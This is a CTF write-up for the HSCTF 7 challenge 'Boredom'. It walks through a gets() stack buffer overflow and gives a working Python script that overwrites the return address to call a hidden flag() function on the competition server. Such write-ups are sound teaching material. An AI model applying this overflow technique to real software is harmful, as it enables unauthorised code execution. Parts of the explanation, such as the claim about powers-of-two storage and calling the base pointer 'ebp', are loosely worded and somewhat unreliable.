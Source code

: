 # Table of contents
1. [Author](#Author)
2. [CTF](#CTF)
3. [Category](#Category)
4. [Challenge Name](#Challenge-Name)
5. [Challenge Description](#Challenge-Description)
6. [Challenge Points](#Challenge-Points)
7. [Solution](#Solution)

# Author
Kaffarel

# CTF
HSCTF 7

# Category
Binary Exploitation

# Challenge-Name
Boredom

# Challenge-Description
Keith is bored and stuck at home. Give him some things to do.
Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:
* Check your offset, the offset is slightly different on the remote server
* The addresses are still the same
Author: PMP
Files: C source file, Executable of the same program

# Challenge-Points
100 pts

# Solution
First I looked at the source code in the attached .c file.
There I found a function named flag() which would output the flag stored in a file on the server. But the file is never called in the main function.
The main function uses gets() to get the input (what you should never do!).
I also noticed the buffer for the input, toDo, is 200 chars big.
So I opened the executable in objdump: `objdump -d boredom`. With objdump we can look at the disassembly of the executable.
In the third line of the main function we find this piece of code:

``` asm
401264:	48 81 ec d0 00 00 00 	sub    $0xd0,%rsp
```
This changes the stack pointer (%rsp) and subtracts 0xd0 from it to make space for local variables.
If we convert 0xd0 in decimal we get: 208. We know that we only have one variable in the main function and that variable is 200 chars in size.
The additional 8 bytes are here because the OS stores variables in addresses of powers of two, so if we overwrite the local space for variables (208 bytes),
we get to the base pointer (ebp) stored in the stack before the local memory.
After the base pointer we have the address of the next instruction in the main function.
So if we overwrite this address with the address of the flag function we will return to the flag function instead of the main function.

So in python:

``` python3
#!/usr/bin/python
import struct
import socket
import sys
s = socket.socket()
s.connect(('pwn.hsctf.com', 5002))
print(s.recv(1024))
s.send("A"*200 + "\xd5\x11\x40\x00\x00\x00\x00\x00")
print(s.recv(1024))
```
Note on the local machine the offset is 208, so we have to put 208 A’s and on the remote machine the offset is 200.

In-Depth explanation:
https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
